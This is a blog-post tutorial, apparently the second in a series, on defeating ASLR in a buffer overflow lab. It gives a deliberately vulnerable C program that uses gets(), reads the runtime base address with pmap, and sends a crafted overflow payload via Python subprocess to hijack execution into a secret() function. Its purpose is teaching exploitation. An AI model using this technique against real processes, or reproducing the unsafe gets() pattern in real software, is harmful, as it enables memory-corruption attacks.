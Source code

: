 ```yaml
---
title: Shattering the stack (1)
published: true
---
```


### Table of contents

* toc placeholder
{:toc}

### Introduction

This is a follow-up to the [previous post](https://shadowshell.io/shattering-the-stack-0) where we began exploring the world of buffer overflows. Now, we will examine how to circumvent ASLR using [pmap](https://linux.die.net/man/1/pmap) (or any similar tool that can determine randomized addresses at runtime). The source code is available [here](https://github.com/gemesa/shadow-shell).

### vulnerable code

We are using the same C code to demonstrate a simple buffer overflow vulnerability (due to the use of the unsafe `gets()` function):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gets() was removed from the C11 standard
char* gets(char* str);

int authenticate(void)
{
    char buff[10];
    char cmd[10];
    int auth = 0;

    puts("enter the password:");
    gets(buff);
    
    if(strcmp(buff, "12345"))
    {
        puts("wrong password");
    }
    else
    {
        puts("correct password");
        auth = 1;

    }
    
    if(auth)
    {
        puts("authenticated");
        puts("your files:");
        strcpy(cmd, "ls");
        system(cmd);
    }

    return 0;
}

int main(void)
{
    authenticate();
    return 0;
}

void secret(void)
{
    puts("secret found!");
}
```

## exploit

Let’s compile and inspect the binary:

```
$ gcc lab/bof-server.c -g -o build/bof-server -fPIE -pie
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000150:
HAS_SYMS, DYNAMIC, D_PAGED
start address 0x0000000000001080
```

The [flags](https://sourceware.org/binutils/docs-2.23.1/bfd/BFD-front-end.html#BFD-front-end) include `DYNAMIC` which means the binary is meant to be used with dynamic linking. This flag is typically seen in shared libraries and PIE executables. We can also see a relatively low start address. For non-PIE executables the start address is usually a fixed higher address:

```
$ gcc lab/bof-server.c -g -o build/bof-server
...
$ objdump -f build/bof-server

build/bof-server:     file format elf64-x86-64
architecture: i386:x86-64, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x0000000000401070
```

Now we verified our binary is indeed a PIE executable meaning if ASLR is activated the addresses will be randomized when we run the executable:

```
$ ./build/bof-server
enter the password:

```
Open an other terminal:

```
$ ps a | grep bof-server                                                      
  45008 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 45008
45008:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
0000561f40f3e000       4       4       0 r---- bof-server
0000561f40f3f000       4       4       0 r-x-- bof-server
0000561f40f40000       4       4       0 r---- bof-server
0000561f40f41000       4       4       4 r---- bof-server
0000561f40f42000       4       4       4 rw--- bof-server
0000561f42cf9000     132       4       4 rw---   [ anon ]
00007f20ed234000       8       4       4 rw---   [ anon ]
00007f20ed236000     152     148       0 r---- libc.so.6
00007f20ed25c000    1396     720       0 r-x-- libc.so.6
00007f20ed3b9000     308      64       0 r---- libc.so.6
00007f20ed406000      16      16      16 r---- libc.so.6
00007f20ed40a000       8       8       8 rw--- libc.so.6
00007f20ed40c000      40      28      28 rw---   [ anon ]
00007f20ed434000       4       4       0 r---- ld-linux-x86-64.so.2
00007f20ed435000     156     156       0 r-x-- ld-linux-x86-64.so.2
00007f20ed45c000      40      40       0 r---- ld-linux-x86-64.so.2
00007f20ed466000       8       8       8 r---- ld-linux-x86-64.so.2
00007f20ed468000       8       8       8 rw--- ld-linux-x86-64.so.2
00007ffcce354000     132      12      12 rw---   [ stack ]
00007ffcce37e000      16       0       0 r----   [ anon ]
00007ffcce382000       8       4       0 r-x--   [ anon ]
ffffffffff600000       4       0       0 --x--   [ anon ]
---------------- ------- ------- ------- 
total kB            2456    1244      96
```

Our goal is once again to jump to our `secret()` function:

```
$ objdump -d build/bof-server
...
0000000000001228 <secret>:
    1228:	55                   	push   %rbp
    1229:	48 89 e5             	mov    %rsp,%rbp
    122c:	48 8d 05 25 0e 00 00 	lea    0xe25(%rip),%rax        # 2058 <_IO_stdin_used+0x58>
    1233:	48 89 c7             	mov    %rax,%rdi
    1236:	e8 f5 fd ff ff       	call   1030 <puts@plt>
    123b:	90                   	nop
    123c:	5d                   	pop    %rbp
    123d:	c3                   	ret
...
```

The address `0x0000000000001228` is relative to the base address of our running process, so if it is `0x0000561f40f3e000` as we saw above then the address of `secret()` will be `0x0000561f40f3e000 + 0x0000000000001228`.

There are 2 problems:
- the base address will be only known after we run `bof-server`
- there is a high chance our address will contain non-printable characters like `\x10`, and passing these to a command-line executable can be tricky, especially if we are using a standard shell or command prompt, as these environments typically don't handle non-printable characters well in direct input

As a solution to these problems we will use the Python interpreter to run `bof-server` and pass our password (payload) to it:

```
$ python                
Python 3.11.6 (main, Oct  3 2023, 00:00:00) [GCC 13.2.1 20230728 (Red Hat 13.2.1-1)] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import subprocess
>>> cmd = ['stdbuf', '-o0', './build/bof-server']
>>> proc = subprocess.Popen(cmd, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

Note: `stdbuf -o0` sets the stdout stream buffering mode to unbuffered. This is necessary because without this some of the stdout was lost (stdout was almost empty after calling `proc.communicate()`).

Now our process is waiting for our password input so we can check the base address:

```
$ ps a | grep bof-server
  46104 pts/0    S+     0:00 ./build/bof-server
...
$ pmap -x 46104
46104:   ./build/bof-server
Address           Kbytes     RSS   Dirty Mode  Mapping
00005651e7c8a000       4       4       0 r---- bof-server
...
```

Then calculate the address of `secret()` and pass our payload:

```
>>> hex(0x00005651e7c8a000+0x1228)
'0x5651e7c8b228'
>>> password = b'aaaaaaaaaabbbbcccccccc\x28\xb2\xc8\xe7\x51\x56'
>>> proc.stdin.write(password)
28
>>> proc.communicate()
(b'enter the password:\nwrong password\nauthenticated\nyour files:\narsenal\nbuild\nCargo.lock\nCargo.toml\nlab\nLICENSE\nMakefile\nREADME.md\ntarget\nsecret found!\n', b'')
>>> exit()
```

`proc.communicate()` returns the stdout and stderr logs. As we can see `secret()` was called because we see `secret found!` in the output.

References:
- [https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb](https://reverseengineering.stackexchange.com/questions/19598/find-base-address-and-memory-size-of-program-debugged-in-gdb)

